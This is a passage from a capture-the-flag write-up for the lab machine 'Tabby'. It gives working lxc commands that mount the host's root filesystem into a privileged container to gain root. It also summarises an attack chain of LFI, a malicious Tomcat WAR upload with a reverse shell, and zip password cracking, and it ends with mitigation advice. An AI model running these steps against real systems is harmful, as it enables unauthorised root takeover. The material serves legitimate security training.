 ```

ash@tabby:~$ lxc init alpine privesc -c security.privileged=true

Creating privesc container

ash@tabby:~$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
Device host-root added to privesc

mounting the alpine and adding the current device root to it.

ash@tabby:~$ lxc start privesc

starting it

ash@tabby:~$ lxc exec privesc /bin/sh

executing bin shell with the lxc powers.
~ # whoami
root
~ # cd /mnt/root/root
/mnt/root/root # 

```

And we can cd via mnt.


## Comparing myself with the official writeup:

They find the megahosting.htb domain and add it to /etc/hosts

This leads them to the LFI at the news.php site

they find the manager page on the 8080 port and then find the tomcat-users.xml via the LFI

they use wfuzz to enumerate the /manager page and find the text interface. 

they deploy a malicious war file and get reverse shell.

they find the backup zip file and copy it using base64.

they then use fcrackzup to crack the password.

and get the user ash.

they find the lxd group and use the privileged container to get root.

They further import their own ssh  key in order to ssh in as root.


## How to stop this exploit:

The news.php file is prone to LFI. This should be fixed by sanitizing the input of the passed argument.

Some bad password reuse on the zip file. Which does not need to be password protected in the first place, as it does not contain any important information.

giving the user ash group lxd is essentially giving root. And giving a normal user root is very bad practice. 